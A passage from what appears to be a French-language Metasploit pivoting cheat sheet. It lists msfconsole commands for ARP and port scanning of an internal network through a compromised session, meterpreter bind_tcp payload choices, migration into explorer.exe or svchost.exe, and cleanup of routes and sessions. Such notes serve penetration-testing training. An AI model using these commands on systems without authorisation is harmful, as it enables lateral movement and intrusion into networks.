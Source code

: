 ```bash
```

### Scan de Réseaux Complets
```bash
# Découverte de hosts via pivot
use auxiliary/scanner/discovery/arp_sweep
set RHOSTS 192.168.1.0/24
set SESSION 1
run

# Scan de ports sur multiple hosts
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.1-254
set PORTS 21,22,23,25,53,80,110,139,445,993,995
set SESSION 1
run
```

## ⚠️ Points Critiques à Retenir

### Choix des Payloads
```bash
# ❌ ERREUR : reverse_tcp pour machines pivotées
# Machine2 ne peut pas joindre directement l'attaquant

# ✅ CORRECT : bind_tcp pour machines pivotées
set PAYLOAD windows/meterpreter/bind_tcp
set PAYLOAD linux/x86/meterpreter/bind_tcp
```

### Stabilité des Sessions
```bash
# Migrer vers un processus stable si nécessaire
migrate -N explorer.exe
migrate -N svchost.exe

# Éviter de fermer msfconsole pendant le pivoting
# Maintenir les sessions actives
```

### Nettoyage
```bash
# Supprimer les routes en fin de mission
run autoroute -D

# Supprimer les redirections de port
portfwd flush

# Fermer proprement les sessions
sessions -K  # Tuer toutes les sessions
```
